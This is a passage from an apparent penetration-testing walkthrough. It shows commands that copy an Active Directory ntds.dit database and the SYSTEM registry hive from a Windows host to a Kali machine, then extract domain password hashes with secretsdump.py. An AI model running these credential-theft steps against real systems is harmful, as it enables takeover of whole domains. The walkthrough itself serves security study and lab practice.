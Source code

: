 and finally download these files locally:

```bash
download ntds.dit /home/kali/Downloads/ntds.dit
```

```bash
download C:\Temp\system /home/kali/Downloads/system
```

<figure><img src="../../.gitbook/assets/image (722).png" alt=""><figcaption></figcaption></figure>

And like a charm we will decrypt hashes from ntds.dit using bootkey saved in registry hive with the help of the `secretsdump.py` tool:

{% code overflow="wrap" %}
```bash
secretsdump.py -ntds /home/kali/Downloads/ntds.dit -system /home/kali/Downloads/system LOCAL
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (723).png" alt=""><figcaption></figcaption></figure>
